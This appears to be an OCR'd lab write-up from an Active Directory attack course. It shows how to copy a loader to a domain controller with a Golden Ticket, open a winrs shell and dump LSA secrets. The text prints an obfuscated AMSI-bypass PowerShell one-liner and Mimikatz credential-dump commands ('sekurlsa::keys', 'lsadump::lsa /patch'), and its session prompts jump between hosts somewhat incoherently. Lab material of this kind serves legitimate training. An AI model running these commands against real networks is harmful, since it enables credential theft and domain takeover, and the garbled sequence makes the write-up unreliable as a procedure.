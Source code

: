 
## LSA Secrets Dump

### Lab: Hands-On #14.2

#### Tasks

- Use the Golden Ticket to (once again) get domain admin privileges from a machine

#### Tools

- `InviShell`
- `ArgSplit`
- `NetLoader`
- `winrs` (alternative: `Enter-PSSession`)
- `xcopy`
- `SafetyKatz` (alternative: `Invoke-Mimi`)
- `AMSIBypass`

#### Solution

- Use the Golden Ticket to (once again) get domain admin privileges from a machine

Now, to extract all the secrets in the domain from the domain controller, we can use the below command.
Run the below commands from the command prompt where we injected the Golden Ticket.

```
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y

Does \\us-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

```
C:\Users\studentuser51>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa

[SNIP]
```

Copy the generated commands and use it on the winrs session on `us-dc`.

```
C:\Windows\system32> winrs -r:us-dc cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
🚀
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'